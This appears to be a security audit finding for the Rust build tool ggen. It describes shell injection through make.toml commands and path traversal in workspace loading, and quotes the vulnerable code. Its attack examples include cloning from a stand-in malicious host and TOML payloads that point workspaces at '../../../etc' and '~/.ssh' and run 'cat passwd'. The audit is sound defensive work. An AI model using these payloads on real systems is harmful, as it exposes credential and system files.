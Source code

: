 #### Security Issues:
1. **No input validation** - Commands executed verbatim from TOML
2. **Shell injection** - Using `sh -lc` allows arbitrary command chaining
3. **Environment variable injection** - Env vars not sanitized
4. **Workspace commands** - Untrusted workspace configs can execute code
5. **Hook chains** - Recursive hook calls multiply attack surface

#### Exploitation Scenario:
```bash
# Attacker creates malicious make.toml in dependency
git clone https://malicious-repo.com/compromised-lib
cd compromised-lib
ggen build  # Executes attacker's shell commands
```

---

### 2. **Path Traversal in Workspace Operations**
**File**: `/Users/sac/ggen/ggen-core/src/lifecycle/exec.rs:136-180`
**Severity**: 🔴 **CRITICAL** (CVSS 8.6)
**Impact**: Arbitrary file read/write, privilege escalation

#### Vulnerable Code:
```rust
for (ws_name, workspace) in workspaces {
    println!("\n📦 Workspace: {}", ws_name);
    let ws_path = ctx.root.join(&workspace.path);  // ⚠️ No path validation!
    let ws_make_path = ws_path.join("make.toml");

    let ws_make = if ws_make_path.exists() {
        Arc::new(load_make(&ws_make_path)?)  // ⚠️ Loads arbitrary files
    } else {
        Arc::clone(&ctx.make)
    };
```

#### Attack Vectors:
```toml
# Malicious make.toml
[workspace.escape]
path = "../../../etc"  # Escape project root

[workspace.home]
path = "~/.ssh"  # Access sensitive directories

[workspace.symlink]
path = "symlink_to_system"  # Follow symlinks to system files
```

#### Exploitation:
```toml
# Read /etc/passwd
[workspace.sensitive]
path = "../../../etc"

[lifecycle.build]
command = "cat passwd"  # Executed in /etc directory
```

---